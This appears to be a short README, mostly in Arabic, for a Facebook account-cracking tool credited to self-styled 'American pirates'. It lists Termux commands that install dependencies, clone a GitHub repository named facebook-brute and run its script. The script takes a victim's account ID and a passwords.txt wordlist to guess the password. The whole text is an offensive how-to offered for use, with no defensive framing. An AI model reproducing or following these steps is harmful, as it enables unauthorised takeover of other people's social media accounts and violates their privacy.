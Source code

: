 # Astika and splash the American pirates
اداة اختراق الفيسبوك عن طريق التخمين
برعاية القرصان الامريكى اسبلاش و استيكا 
الاداة يا حب
اداة اختراق فيسبوك

pkg update

pkg upgrade

pkg install git

pkg install wget

pkg install pip2

git clone https://github.com/Cesar-Hacker/facebook-brute

ls

cd facebook-brute

ls

chomod+x facebook.py

ls

pkg install mechanize

pip2 install mechanize

ls

pkg install python2

ls

python2  facebook.py

ايدي الحساب

بعدها 

passwords.txt

